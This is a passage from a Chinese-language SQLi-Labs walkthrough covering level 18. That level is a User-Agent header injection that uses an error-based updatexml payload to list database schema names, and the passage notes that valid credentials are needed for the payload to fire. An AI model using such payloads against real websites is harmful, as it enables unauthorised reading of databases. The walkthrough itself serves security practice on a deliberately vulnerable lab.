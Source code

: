 ![image-20240404221044955](PictureFile/SqliLabs通关.assets/image-20240404221044955.png)

## 第十八题-Uagent

1' and updatexml(1,concat(0x7e,substr((select group_concat(schema_name) from information_schema.schemata),1,31)),1) or '

User-Agent注入。这关一定要注意，请求正文中的uname和passwd的值一定要是数据库中存在的用户名和对应的密码，因为这关代码会先判断数据库中是否有该用户名和密码的用户，如果有才会将User-Agent和客户端ip信息写入数据库

![image-20240404224034017](PictureFile/SqliLabs通关.assets/image-20240404224034017.png)
